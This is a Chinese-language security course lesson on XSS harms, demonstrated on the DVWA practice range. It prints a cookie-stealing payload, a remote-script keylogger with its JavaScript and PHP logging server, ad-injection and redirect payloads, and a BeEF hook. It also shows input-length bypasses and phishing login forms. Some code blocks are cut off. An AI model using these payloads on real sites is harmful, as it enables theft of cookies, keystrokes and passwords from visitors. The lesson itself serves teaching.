# 22 | XSS（中）：跨站脚本攻击的危害性

你好，我是王昊天。

在上一节课程中，我们学习了什么是 XSS 攻击，并且介绍了 XSS 攻击的不同种类。在攻击示例的代码中，我们仅仅是让网页弹出一个警告框，看上去 XSS 攻击并没有什么作用，但实际上，它的危害性是比较大的。你会好奇 XSS 攻击会造成哪些危害吗？

这节课，让我们一起来深入了解一下。

## XSS 攻击的危害

XSS 攻击的危害主要包括四种类型，我已经将它们整理在下图中，它们分别是盗取 cookie、按键记录和钓鱼、广告植入以及欺骗跳转。



首先我们来学习具有代表性的 XSS 攻击利用，盗取 cookie，看看攻击者是如何用 XSS 攻击实现对 cookie 的窃取。

### 盗取 cookie

cookie 在英文中的意思为甜品、饼干，不过这里盗取 cookie 可不是偷饼干的意思哦。在HTTP 请求中，cookie 代表着登录信息，我们在 Web 应用登录成功后，服务器端会生成一个cookie。然后服务器端会将这个生成的 cookie 发送给我们，供我们之后访问的时候使用。

如果攻击者拿到 cookie 信息了，那他就可以实现登录我们的账号，这是非常危险的，所以我们平时需要保护好我们的 cookie 信息。

在了解完 cookie 是什么之后，让我们用一个示例，一起看看 XSS 攻击是如何获得 cookie 信息的。

这是一个 DVWA 靶场，我们在登陆后选择 DOM 型 XSS，获得如下页面：



在上一讲的实战部分中，我们成功的对这个页面进行了 XSS 注入攻击，其中使用的 payload为：

```xml
<script>alert(1)</script>
```

在之前的学习中，我们知道它可以让页面弹出一个警告框，但如果我们将这个 payload 改为如下：

```xml
<script>var pic=document.createElement("img");pic.src="http://127.0.0.1:2222/getC
```

这个 payload 会调用 JavaScript 创建一个 Element 对象，之后将这个对象的 src 设置为我们监听的地址端口，向这个地址用 GET 方式上传参数 document.cookie，这样我们就能窃取到用户的 cookie 啦。



可以看到，我们已经收到这个 GET 请求了，它的 cookie 值也被我们接收到了。

到这里，你已经学习了用 XSS 攻击来盗取 cookie 的用法。接下来，让我们来学习如何用XSS 攻击实现按键记录以及钓鱼。

### 按键记录和钓鱼

首先我们来看看如何实现按键记录。

我们仍然选择 DVWA 的 XSS(DOM) 靶场做测试，只需要更换 payload 即可，将 payload 设置为：

```xml
<script src=http://192.168.3.193/keylogger.js></script>
```

这段代码可以去调用远程地址中的 JavaScript 文件，使得 keylogger.js 中的代码被执行。这里的 keylogger.js 的内容为：

```javascript
document.onkeypress = function(evt) {
   evt = evt || window.event;
   key = String.fromCharCode(evt.charCode);
   if(key) {
       var http = new XMLHttpRequest();
       var param = encodeURI(key);
       http.open("POST","http://192.168.3.193/keylogger.php",true);
       http.setRequestHeader("Content-type","application/x-www-form-urlencoded")
       http.send("key="+param);
   }
}
```

它创建了一个监听按键的事件，这个事件可以记录用户在当前页面按下的每一个键，并将接收到的按键通过 POST 方式上传到攻击者用来存储按键记录的服务器上。其中 keylogger.php 的代码为：

```
<?php
 $key=$_POST['key'];
 $logfile="keylog.txt";
 $fp = fopen($logfile,"a");
 fwrite($fp,$key);
 fclose($fp);
?>
```

它可以将接收到的 key 记录到 keylog.txt 文件中，这样就能实现按键记录的功能了。

我们胡乱的在被攻击的页面按下一些键，发现我们用来记录按键的服务器已经获取到了按键内容，并将它们存储在 keylog.txt 中。



我们还可以将这个按键记录做一下加工，使得用户可以输入一些敏感信息例如账号、密码等信息。我们可以用 JavaScript 创建出一个伪造的登陆框，这样用户很可能会上当，在这里输入自己的用户名和密码，我们可以利用之前的按键记录获取到这些信息。这种行为就是钓鱼攻击，因为它本质上和钓鱼非常类似，在钓鱼中我们就会利用鱼饵，将锋利的鱼钩伪装成美味的食物，这样就能骗得鱼儿上钩。

相信到这里你已经明白了如何用 XSS 攻击来实现按键记录以及钓鱼。接下来，让我们学习用XSS 实现广告植入的方式吧。

### 广告植入

想要做广告植入，那我们需要用存储型 XSS 注入，这样就可以使得所有访问受攻击页面的用户都会看到广告。

这里我们选择用 DVWA 的存储型 XSS 作为示例，如下图，这里需要输入一个姓名和消息。



经过测试后，我们发现这个 Message 框内会受到 XSS 攻击，于是直接可以将负载改为：

```xml
<script>document.writeln("<iframe scrolling='no' frameborder='0' marginheight='0'
```

这段恶意负载可以在当前页面以行的方式输出 src 对应的内容，这样我们把广告的地址设置为src 即可。可以看到广告已经弹出，这就是用 XSS 实现广告植入的方法。

在测试的过程中，你可能会发现我们无法输入完整的负载，这是因为 DVWA 对这个输入框有长度限制，我们有两种方法可以绕过这一输入限制。

第一种，我们先随意输入符合长度要求的 Message 内容，之后用 BurpSuite 去进行拦截修改，将 Message 的内容修改为我们想要设置的恶意负载，这样就可以绕过输入长度限制。

第二种，我们可以去修改页面的限制代码，首先在 Message 输入框内右键，选择检查，这样关于它的代码就会高亮显示。



在图中，我们可以看到它限制了最多输入 50 个字符，我们可以将这个数字改为 1000 或者更大，来满足我们对负载长度的要求。修改过后，我们就可以任意输入想要的负载啦。这里也是在前端进行的修改。



下面，让我们继续学习 XSS 的危害类型，看看如何用 XSS 去实现欺骗跳转。

### 欺骗跳转

有的网页希望增加访问量，或者吸引用户访问，那么就可能会用 XSS 攻击来实现这一目的。下面我们继续以 DVWA 靶场中的存储型 XSS 作为示例。

为了实现欺骗跳转，我们需要将负载设置为：

```xml
<script>window.location.href=“跳转的目的地址”;</script>
```

这段负载也是 JavaScript 代码，它可以使得当前页面跳转到设置的目的地址，这就是跳转产生的原因。注意，这里同样是需要绕过输入长度的限制的哦。

这样，当我们访问被攻击的页面时，页面会自动跳转到攻击者设置的地址中，如果攻击者将这个地址伪造为被攻击的页面，那么很容易迷惑访问用户，使得用户认为这就是被攻击的页面，但事实上，用户已经落入到攻击者的圈套之中了。

这就是用 XSS 实现欺骗跳转的方法。到这里，你已经学完了常见的 XSS 攻击利用方法，事实上，这就是一个任意 JavaScript 命令执行漏洞，我们只要更换不同的 JavaScript 语句，就可以实现这些攻击行为。

上述内容都是我们对 XSS 攻击的手动利用，接下来，让我们来学习一款 XSS 攻击自动利用神器——BeEF。

## BeEF 的使用

我们都知道 Beef 是牛肉的意思，这款名为 BeEF 的软件也是非常牛的。我们利用它可以进行各种各样的攻击操作，并且不需要我们手动进行一些负载的设计，下面让我们一起来学习它吧。

```sql
首先我们要来安装这款软件，我们可以在 kali 虚拟机中使用 sudo apt install beef-
xss 进行 BeEF 的安装，如果失败，那么我们运行 sudo apt-get update 进行 apt 的更
```

新，然后重新安装即可。

```
安装完成之后，我们就可以用命令 sudo beef-xss 来打开这个软件，可以看到它会自动弹
```

出一个 Web 页面，这就是这个软件的用户界面。



我们选择 DVWA 的存储型 XSS 攻击来做测试，让你可以更好地理解这款工具。

那么在利用 BeEF 前，我们首先需要进行 XSS 攻击。



和之前我们手动攻击一样，需要在 Message 框内输入恶意负载，由于我们 BeEF 工具所在的服务器地址为 192.168.3.101，所以我们将负载设置为：

```xml
<script src="http://192.168.3.101:3000/hook.js"></script>
```

这样，每当这个页面被访问时，都会触发我们注入的 JavaScript 代码，使得页面向我们的恶意服务器请求 hook.js 文件，其中你可以简单认为 hook.js 文件是 BeEF 的一个接口，之后我们在 BeEF 调用的命令都是通过这个接口来实现的。

完成了接口的设置之后，我们在 BeEF 的页面，可以看到 BeEF 中的 Hooked Browsers 一栏已经显示出被攻击的目标。



这里 192.168.3.124 是我搭建的 DVWA 靶场的地址，代表的是被攻击服务器 IP，而192.168.3.102 代表的是访问被攻击服务器的用户机器的 IP。我们点击 Current Browser 就可以进行我们想要的攻击行为啦。



首先我们选中 Commands 这一栏，然后根据描述选择其中我们想要发起的攻击行为，例如：GET Cookie。



可以看到我们已经获取到了 cookie 信息。这比我们手动去获取 cookie 简单很多。

这就是 BeEF 的用法介绍，当然它具有很多有趣的攻击功能，下面我再介绍它的一个功能，那就是改变页面内容。



我们可以在 Deface Content 中对内容进行设置，然后点击执行按钮，可以发现我们的 DVWA靶场已经变为了刚刚设计的内容。



其实 BeEF 的非常强大，它具有几百个不同的攻击命令，你可以一一尝试去把玩它们。

## 总结

在这节课程中，我们可以感受到 XSS 攻击的可怕之处，并且清楚了它的危害性。

首先我们学习了对 XSS 攻击的手动利用，包括了盗取 cookie、按键记录和钓鱼、广告植入以及欺骗跳转这些不同的攻击手段。但事实上，我们都是利用的 JavaScript 代码注入，页面中一切 JavaScript 代码可以实现的功能，我们都能实现。所以实现 XSS 攻击的能力，和JavaScript 的掌握程度息息相关。

然后，我们学习了 XSS 攻击神器——BeEF，利用它我们不需要再亲自构造 JavaScript 代码，而是利用设计好的代码直接发起我们想要的攻击行为，这给我们带来了极大的便利。

## 思考题

除了这节课中提到的 XSS 攻击种类，你还能想到别的攻击种类吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
